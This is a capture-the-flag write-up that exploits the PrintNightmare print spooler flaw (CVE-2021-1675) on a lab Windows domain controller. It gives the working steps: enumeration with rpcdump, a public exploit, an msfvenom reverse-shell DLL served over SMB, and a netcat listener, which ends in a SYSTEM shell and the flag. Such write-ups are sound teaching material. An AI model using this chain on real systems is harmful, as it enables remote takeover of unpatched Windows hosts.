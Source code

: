 # Dreams

![](Pasted%20image%2020210809231954.png)

If you don't live under a rock and follow cyber security news even slightly, you'd be aware that a new RCE vulnerability for Windows Printer Spooler service was released recently. The vulnerability dubbed PrintNightmare has gathered a lot of attention and for the right reasons... Its pretty epic!

The name of the challenge hints at it being about this vulnerability and the note gives it away (especially if you solved the previous challenge using PrintNightmare ;) ):
> Note 2: this vulnerability was also present in the Scorching challenge (which has been patched as of phase 3).

We're given credentials to begin with `Space:Inv4d3r` which means most of the work is already done for us. Now we only need to run the exploit.

We can check if MS-PAR and MS-RPRN system calls are exposed using `rpcdump.py` (yet another tool from impacket). Either of these may be used to exploit this vulnerability:
```
% rpcdump.py "Space:Inv4d3r@10.6.0.2" | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

We can see that both are available so this host is potentially vulnerable.

There are a lot of exploits available on github, however I've found that this guy's exploit is one of the more reliable: https://github.com/cube0x0/CVE-2021-1675

You need to install his impacket implementation in order to run this exploit. However, if you're like me and don't want to mess up your impacket installation, you can simply run everything in a virtual environment so that you don't overwrite your impacket install.

We setup a virtual environment using `pipenv` and install the custom impacket code:
```
% pipenv shell
% git clone https://github.com/cube0x0/impacket
% cd impacket
% pip install .

# if you're having issues with pip hanging, try running pip with -v and if its related to HTTPS, disabled ipv6 (ref: https://stackoverflow.com/a/64605497)
```

Clone the actual exploit now:
```
git clone https://github.com/cube0x0/CVE-2021-1675
```

You should now have the python exploit:
```
% ls
CVE-2021-1675.py  Images  README.md  SharpPrintNightmare
```

Create a directory which will be your exposed share, in this case I've called it "myshare":
```
% mkdir myshare
```

Create a reverse shell dll using msfvenom and put it in your "myshare" directory. My IP is 10.6.0.100 and I'll be listening on port 80:
```
(asdf-I4AHjtDI) (main) % msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=10.6.0.100 LPORT=80 -o reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
Saved as: reverse.dll
(asdf-I4AHjtDI) (main)⚡ % mv reverse.dll myshare   
```

At this point, we can start the smbserver in a separate terminal window and serve the "myshare" folder as a share named "myshare":
```
% sudo smbserver.py myshare myshare
[sudo] password for lo:
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

In another window, we start our netcat listener:
```
% sudo nc -lvnp 80                                                                  [sudo] password for lo:
listening on [any] 80 ...

```

And finally, in the virtual environment we can run the exploit:
```
% python3 CVE-2021-1675.py Space:Inv4d3r@10.6.0.2 '\\10.6.0.100\myshare\reverse.dll'        
[*] Connecting to ncacn_np:10.6.0.2[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_3138b2c823dd1ea9\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.6.0.100\myshare\reverse.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

```

It might take a few tries for the exploit to work, however it should trigger and you get a reverse shell back.

In the end, your setup might look similar to this:
![](Pasted%20image%2020210809235643.png)

And you have a shell as system:
```
% sudo nc -lvnp 80
[sudo] password for lo:
listening on [any] 80 ...
connect to [10.6.0.100] from (UNKNOWN) [10.6.0.2] 52907
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
DC1

```

The flag is locate in `C:\`:
```
C:\>cd /
cd /

C:\>ls
ls
$Recycle.Bin
BOOTNXT
Documents and Settings
PerfLogs
Program Files
Program Files (x86)
ProgramData
System Volume Information
TheFlag.txt
Users
Windows
bootmgr
pagefile.sys

C:\>type TheFlag.txt
type TheFlag.txt
CTF{55a7160186a60b662b37c9c07c709e18}
```
